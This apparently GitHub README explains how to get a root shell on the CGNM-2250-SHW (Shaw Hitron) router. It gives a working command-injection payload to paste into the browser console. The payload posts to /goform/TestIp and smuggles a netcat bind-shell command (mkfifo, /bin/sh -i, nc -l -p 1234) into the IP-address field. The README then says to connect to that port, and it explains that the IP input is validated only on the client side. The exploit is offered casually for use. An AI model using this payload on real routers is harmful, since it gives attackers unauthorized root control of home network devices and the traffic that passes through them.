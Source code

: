 # Getting a Root shell on the CGNM-2250-SHW Router
How to root CGNM-2250-SHW (Shaw Hitron Router)

I was messing around this weekend while putting of doing my COM100 project and I found this jucy vuln that gives you a root shell. Best of all its super easy to do, there are only 3 steps.

__1. login to the admin page of the rounter__
![admin page](https://github.com/CanadianCommander/CGNM-2250-SHW-Root/blob/master/HitronLogin.png)


__2. Paste this command in to the web browser console__

```
$.post("/goform/TestIp", {csrf_token: $("#csrf_token").val(), model: '{"TestIpAddress":"; rm -f /dev/myF; mkfifo /dev/myF; cat /dev/myF | /bin/sh -i 2>&1 | nc -l -p 1234 > /dev/myF;","UserType":"1","inputip":1,"TestMode":0}'}, function (data) {console.log(data)})
```
![run command in browser console](https://github.com/CanadianCommander/CGNM-2250-SHW-Root/blob/master/injectCommand.png)

__3. open a terminal and netcat to the router on port 1234__
![terminal netcat](https://github.com/CanadianCommander/CGNM-2250-SHW-Root/blob/master/rootShell.png)

As you can see you now get a jucy root shell (root is the only user that exists on the system). Have fun messing around!

## Additonal information 
  This exploit is a command injection exploit that targets the Admin Diagnostics page. On this page you can do two things. One run a ping on some ip and two run a traceroute on some ip. The vuln comes about because the ip is only checked client side (in the js code). Thus by injecting our own post command we bypase the checks and the server will place what ever we pased as the ip address in to the ping/traceroute command, `ping <our code>`. This allows us to do remote code execution. For example, to reboot the rounter we use the string `; reboot` which resolves to, `ping ; reboot` on the server.
